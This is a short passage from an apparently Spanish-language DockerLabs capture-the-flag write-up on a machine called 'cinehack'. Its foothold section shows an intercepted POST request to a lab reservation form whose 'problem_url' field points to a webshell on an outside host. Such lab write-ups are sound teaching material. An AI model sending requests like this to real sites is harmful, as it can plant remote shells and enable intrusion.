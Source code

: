 ![](assets/img/dockerlabs-writeup-cinehack/cinehack1_4.png)


---
## Foothold

Al interceptar la petición POST del formulario, observo que los datos se envían de la siguiente manera:

```http
POST /reservation.php HTTP/1.1
Host: cinema.dl
name=Juan+P%C3%A9rez&email=juanperez%40example.com&phone=%2B34+600+123+456&problem_url=http%3A%2Ftusitio.com%2Fuploads%2Fwebshell.php
```
